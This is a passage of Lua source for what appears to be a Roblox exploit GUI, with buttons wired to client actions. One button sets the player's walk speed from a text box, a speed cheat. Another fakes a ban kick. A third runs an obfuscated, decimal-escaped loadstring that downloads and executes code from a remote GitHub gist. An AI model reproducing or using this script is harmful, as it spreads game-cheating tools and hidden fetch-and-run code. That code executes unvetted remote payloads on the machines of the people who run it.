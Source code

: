 	script.Parent.MouseButton1Click:Connect(function()
		script.Parent["Dog Laughing meme"]:Play()
	end)
end
coroutine.wrap(AAWLOR_fake_script)()
local function XYOKK_fake_script() -- TextButton_2.LocalScript 
	local script = Instance.new('LocalScript', TextButton_2)

	script.Parent.MouseButton1Click:Connect(function()
                game.Players.LocalPlayer:Kick("You has banned 109394 Days")
	end)
end
coroutine.wrap(XYOKK_fake_script)()
local function YSXG_fake_script() -- TextButton_3.LocalScript 
	local script = Instance.new('LocalScript', TextButton_3)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()
	end)
end
coroutine.wrap(YSXG_fake_script)()
local function LUQDRLR_fake_script() -- TextButton_4.LocalScript 
	local script = Instance.new('LocalScript', TextButton_4)

	script.Parent.MouseButton1Click:Connect(function()
		local texbox = script.Parent.Parent.TextBox
		game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = texbox.Text
		
	end)
end
coroutine.wrap(LUQDRLR_fake_script)()
local function BNZYRC_fake_script() -- toggle.LocalScript 
	local script = Instance.new('LocalScript', toggle)

	script.Parent.MouseButton1Click:Connect(function()
		local fame = script.Parent.Parent.Frame
		if fame.Visible == true then
			fame.Visible = false
		elseif fame.Visible == false then
			fame.Visible = true
		end
	end)
end
coroutine.wrap(BNZYRC_fake_script)()
